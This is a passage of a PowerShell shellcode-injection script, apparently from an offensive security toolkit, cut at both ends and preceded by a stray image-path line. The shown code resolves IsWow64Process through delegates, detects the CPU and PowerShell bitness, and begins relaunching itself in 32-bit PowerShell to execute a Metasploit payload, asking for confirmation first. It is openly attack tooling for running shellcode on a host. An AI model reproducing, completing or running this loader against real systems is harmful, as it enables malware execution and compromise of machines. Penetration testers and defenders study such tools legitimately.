     # A valid pointer to IsWow64Process will be returned if CPU is 64-bit
    $IsWow64ProcessAddr = Get-ProcAddress kernel32.dll IsWow64Process
    if ($IsWow64ProcessAddr)
    {
    	$IsWow64ProcessDelegate = Get-DelegateType @([IntPtr], [Bool].MakeByRefType()) ([Bool])
    	$IsWow64Process = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($IsWow64ProcessAddr, $IsWow64ProcessDelegate)
        
        $64bitCPU = $true
    }
    else
    {
    	$64bitCPU = $false
    }

    if ([IntPtr]::Size -eq 4)
    {
        $PowerShell32bit = $true
    }
    else
    {
        $PowerShell32bit = $false
    }

    if ($PsCmdlet.ParameterSetName -eq 'Metasploit')
    {
        if (!$PowerShell32bit) {
            # The currently supported Metasploit payloads are 32-bit. This block of code implements the logic to execute this script from 32-bit PowerShell
            # Get this script's contents and pass it to 32-bit powershell with the same parameters passed to this function

            # Pull out just the content of the this script's invocation.
            $RootInvocation = $MyInvocation.Line

            $Response = $True
        
            if ( $Force -or ( $Response = $psCmdlet.ShouldContinue( "Do you want to launch the payload from x86 Powershell?",
                   "Attempt to execute 32-bit shellcode from 64-bit Powershell. Note: This process takes about one minute. Be patient! You will also see some artifacts of the script loading in the other process." ) ) ) { }
        
            if ( !$Response )
            {
                # User opted not to launch the 32-bit payload from 32-bit PowerShell. Exit function
                Return
            }
